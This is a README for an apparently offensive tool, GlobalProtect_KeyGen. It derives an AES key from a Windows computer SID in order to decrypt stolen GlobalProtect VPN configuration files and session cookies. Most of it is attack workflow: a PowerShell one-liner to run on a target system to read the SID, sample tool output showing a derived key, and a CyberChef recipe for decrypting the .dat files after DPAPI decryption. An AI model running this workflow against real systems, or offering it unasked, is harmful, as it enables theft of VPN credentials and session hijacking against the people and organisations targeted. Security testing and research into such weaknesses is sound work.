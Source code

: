 # GlobalProtect_KeyGen

Tool for generating encryption key to decrypt offline GlobalProtect VPN configuration and cookies using the Computer SID.

## Usage

Obtain Computer SID of target (execute on target system)
```
((get-wmiobject -query "Select * from Win32_UserAccount Where LocalAccount = TRUE").SID -replace "\d+$","" -replace ".$")[0]
```

Run offline to obtain encryption key
```
> GlobalProtect_KeyGen.exe
Usage: GlobalProtect_KeyGen.exe Computer_SID_VALUE
```

```
> GlobalProtect_KeyGen.exe S-1-5-21-3853142505-1760735370-2458319090
[*] Deriving AES key from computer SID
        [*] Computer SID : S-1-5-21-3853142505-1760735370-2458319090
        [*] Computer SID (Hex) : 010400000000000515000000E949AAE58AB0F268F2F88692
        [*] Derived AES Key: FFD40E0D6894B0582E3AA0F2899F9FBEFFD40E0D6894B0582E3AA0F2899F9FBE
```

## Decrypt .dat files (after DPAPI decryption -> [dpapi.py](https://github.com/fortra/impacket/blob/master/examples/dpapi.py)) using CyberChef
https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Hex','string':'FFD40E0D6894B0582E3AA0F2899F9FBEFFD40E0D6894B0582E3AA0F2899F9FBE'%7D,%7B'option':'Hex','string':'0000000000000000'%7D,'CBC','Raw','Raw',%7B'option':'Raw','string':''%7D,%7B'option':'Hex','string':''%7D)

## Original Source Code
https://github.com/rotarydrone/GlobalUnProtect
